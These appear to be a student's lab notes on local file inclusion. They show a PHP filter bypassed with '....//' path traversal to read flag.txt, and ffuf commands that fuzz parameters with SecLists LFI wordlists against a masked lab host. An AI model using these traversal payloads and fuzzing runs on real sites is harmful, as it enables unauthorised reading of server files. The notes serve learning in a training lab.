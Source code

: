 ## this is shit  
Sub-domain Fuzzing.  
I could not access the web site.   
I guessed the answer.



# LFI
# Lesson
- LFI (Local File Inclusion)
    - Path Traversal Deep Dive
- php
    - Wrappers 

file search
nmap
burp

# Memo
```php
$language = str_replace('../', '', $_GET['language']);
# can bypass with ....// -> ../
```
```
http://XXX.XXX.XXX.XXX:PORT/index.php?language=languages/....//....//....///....//flag.txt
```



- Skills Assessment - File Inclusion
XXX.XXX.XXX.XXX:41378

```zsh
$ ffuf -w ~/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://XXX.XXX.XXX.XXX:41378/index.php?message=FUZZ
# nothing
$ ffuf -w ~/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://XXX.XXX.XXX.XXX:41378/index.php?page=FUZZ
# error                   [Status: 200, Size: 4521, Words: 837, Lines: 127, Duration: 34ms]
# main                    [Status: 200, Size: 15829, Words: 3435, Lines: 401, Duration: 9ms]
# contact                 [Status: 200, Size: 7036, Words: 1569, Lines: 195, Duration: 106ms]
# about                   [Status: 200, Size: 14635, Words: 3194, Lines: 331, Duration: 158ms]
# index                   [Status: 200, Size: 1112127624, Words: 211326301, Lines: 31974589, Duration: 18ms]
# :: Progress: [2588/2588] :: Job [1/1] :: 356 req/sec :: Duration: [0:00:16] :: Errors: 0 ::

$ ffuf -w ~/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://XXX.XXX.XXX.XXX:41378/index.php?page=FUZZ
# many
# checking browser fs 4521 is blocked
$ ffuf -w ~/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://XXX.XXX.XXX.XXX:41378/index.php?page=FUZZ -fs 4512,4322,4521
# nothing
$ ffuf -w ~/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://XXX.XXX.XXX.XXX:41378/index.php?message=FUZZ
# many
$ ffuf -w ~/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://XXX.XXX.XXX.XXX:41378/index.php?message=FUZZ -fs 15829
# nothing
```
